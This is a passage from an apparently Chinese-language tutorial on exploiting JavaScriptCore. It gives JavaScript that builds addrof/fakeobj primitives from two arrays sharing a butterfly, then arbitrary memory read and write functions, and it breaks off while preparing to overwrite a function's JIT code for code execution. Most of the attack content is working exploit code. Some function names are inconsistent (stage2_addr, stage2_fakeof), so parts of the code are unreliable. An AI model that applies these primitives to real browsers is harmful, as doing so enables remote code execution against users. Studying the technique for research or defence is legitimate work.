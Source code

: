 现在`unboxed`和`boxed`的butterfly指向同一个地址
```javascript
print(describe(unboxed));
// Object: 0x7fffade90050 with butterfly 0x7ff000038008 (Structure 0x7fffaf4f2a70:[Array, {}, ArrayWithDouble, Proto:0x7fffaf4c80a0]), StructureID: 98

print(describe(boxed));
// Object: 0x7fffade90060 with butterfly 0x7ff000038008 (Structure 0x7fffaf4f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffaf4c80a0]), StructureID: 99
```

我们可以通过`unboxed`和`boxed`实现新的`addrof`和`fakeobj`原语了

将对象写入`boxed[0]`，指针高四位为`0000`，再用`unboxed[0]`取出，刚好没有影响
```javascript
stage2_addrof = function(obj) {
    boxed[0] = obj;
    return unboxed[0];
}
```

将传入的地址写入`unboxed[0]`，由于是浮点数数组，不对数据进行box处理，所以`boxed[0]`取出这个数据的时候，刚好符合指针高四位为`0000`
```javascript
stage2_fakeof = function(dbl) {
    unboxed[0] = dbl;
    return boxed[0];
}
```

其实上面已经实现了任意地址读写，`real_fake[1]`指向的是`victim`的butterfly，而`victim.a`是其butterfly往左偏移`0x10`指向的数据

如果我们直接将`victim`的butterfly赋值为目标地址`0x0000616161616161`，那么读取`victim.a`的时候就会读取到`0x0000616161616151`的数据，所以利用这个特点，我们可以先把目标地址往右偏移`0x10`再赋值给`victim`的butterfly
```javascript
stage2_arbitrary_read = function(addr) {
    f64[0] = addr;
    u32[0] += 0x10;
    real_fake[1] = f64[0];
    return stage2_addr(victim.a);
}

stage2_arbitrary_write = function(addr, data) {
    f64[0] = addr;
    u32[0] += 0x10;
    real_fake[1] = f64[0];
    victim.a = stage2_fakeobj(data);
}
```

但由于之前伪造对象的时候，`real_fake`是对象数组，往butterfly写数据的时候，会将浮点数加上`0x1000000000000`存储，所以我们在实现任意读写原语之前将其修改为浮点数数组
```javascript
outer.cell_header = flags_arr_double;
```

另外注意一点，为什么不直接返回`victim.a`？因为我们要处理数据是对象的情况

现在我们拥有了任意地址读写原语，可以开始实现任意代码执行了，这里使用的方法是修改函数的JIT代码段
```javascript
var BASE32 = 0x100000000;
function f2i(f) {
    f64[0] = f
    return u32[0] + BASE32 * u32[1]
}

function i2f(i) {
    u32[0] = i % BASE32
    u32[1] = i / BASE32
    return f64[0]
}
```